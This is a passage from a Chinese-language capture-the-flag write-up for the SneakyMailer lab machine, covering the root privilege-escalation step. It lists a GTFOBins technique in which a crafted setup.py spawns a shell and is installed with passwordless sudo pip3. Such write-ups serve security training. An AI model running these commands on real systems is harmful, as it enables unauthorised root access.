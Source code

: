 一旦推入，ssh即可免密登录

## root

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031061041218_31034.png)

得到user
![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031055418697_28202.png)

sudo -l没有要求输入密码，并且可以免密使用pip3

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031055516222_32608.png)

直接gtfobins提权

```bash
TF=$(mktemp -d)

echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty)>$(tty) 2>$(tty)')" > $TF/setup.py

sudo /usr/bin/pip3 install $TF
```
![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031055834236_7740.png)

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031055855769_2208.png)